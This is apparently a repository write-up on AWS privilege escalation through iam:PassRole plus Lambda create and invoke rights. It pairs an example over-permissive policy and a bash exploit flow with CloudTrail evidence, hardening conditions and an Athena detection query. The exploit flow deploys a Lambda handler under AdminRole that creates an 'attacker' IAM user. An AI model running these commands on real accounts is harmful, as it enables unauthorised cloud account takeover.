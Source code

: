 # 🧨 Privilege Escalation via `iam:PassRole` + Service Permissions

## 🎯 Use Case Summary

This attack exploits a fundamental design of AWS IAM: the ability to **delegate permissions through roles**. Specifically, it targets overly permissive use of `iam:PassRole`, which allows a user to hand off a role (often high-privilege) to a service like **Lambda**, **EC2**, or **Step Functions**.

In this scenario, an attacker compromises a low-privileged IAM user (e.g., a developer account) that has the ability to:

- Call `iam:PassRole` on an administrative role
- Launch a service that executes code using that role

By chaining these permissions, the attacker **indirectly assumes elevated privileges**, not by attaching policies to themselves, but by getting AWS to execute code on their behalf under a more powerful identity.

This is not a vulnerability in AWS — it’s a **misconfiguration and privilege escalation vector** that arises when users can pass roles they should not control.

---

## 🛠️ Example Setup

### 1. IAM Policy Assigned to User

This policy allows the user to create and invoke a Lambda function **using a high-privilege role**:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "iam:PassRole"
      ],
      "Resource": "arn:aws:iam::123456789012:role/AdminRole"
    },
    {
      "Effect": "Allow",
      "Action": [
        "lambda:CreateFunction",
        "lambda:InvokeFunction"
      ],
      "Resource": "*"
    }
  ]
}
```

### 2. Attacker Exploit Flow

```bash
# Package malicious Lambda code (e.g., to create another IAM user or dump secrets)
echo 'exports.handler = async () => { require("child_process").exec("aws iam create-user --user-name attacker"); };' > index.js

zip function.zip index.js

# Upload and create the Lambda using the high-privilege role
aws lambda create-function \
  --function-name elevateMe \
  --zip-file fileb://function.zip \
  --handler index.handler \
  --runtime nodejs18.x \
  --role arn:aws:iam::123456789012:role/AdminRole

# Invoke it
aws lambda invoke --function-name elevateMe output.txt
```

This Lambda executes with the privileges of `AdminRole` — not the attacker’s user role.

---

## 📜 CloudTrail Evidence

Look for the following sequence in CloudTrail logs:

1. `CreateFunction` with a trusted role attached
2. `InvokeFunction` from an unprivileged principal
3. Privileged activity following Lambda execution

Sample CloudTrail log excerpt:

```json
{
  "eventName": "CreateFunction",
  "userIdentity": {
    "type": "IAMUser",
    "userName": "dev-user"
  },
  "requestParameters": {
    "role": "arn:aws:iam::123456789012:role/AdminRole"
  }
}
```

---

## 🔐 How to Secure Against This

### ✅ Best Practices

- **Limit **``** to only specific roles that are intended to be passed**
- **Use conditions** in the policy to enforce role tagging or service constraint:

```json
"Condition": {
  "StringEqualsIfExists": {
    "iam:PassedToService": "lambda.amazonaws.com"
  }
}
```

- Ensure that **high-privilege roles are not passable** by default — even by developers
- Use **Access Analyzer** to detect unintended cross-principal assumptions
- Log and monitor `iam:PassRole`, `CreateFunction`, `RunInstances`, etc.
- Enable **MFA** for sensitive users
- Implement **least privilege**: don’t allow users to launch compute with arbitrary roles

### 🚫 Anti-Patterns to Avoid

- Allowing `iam:PassRole` with `"Resource": "*"`
- Not scoping the `PassedToService` condition
- Overloading roles shared between services and humans

---

## 🔍 Detection Strategy

### Query (Athena / CloudTrail via SQL):

```sql
SELECT eventTime, userIdentity.arn, eventName, requestParameters.role
FROM cloudtrail_logs
WHERE eventName = 'CreateFunction'
  AND requestParameters.role LIKE '%AdminRole%'
ORDER BY eventTime DESC
```

### Alerting:

- Monitor:
  - `iam:PassRole`
  - `lambda:CreateFunction`, `ec2:RunInstances`
  - Any role assumption with elevated permissions

---

##

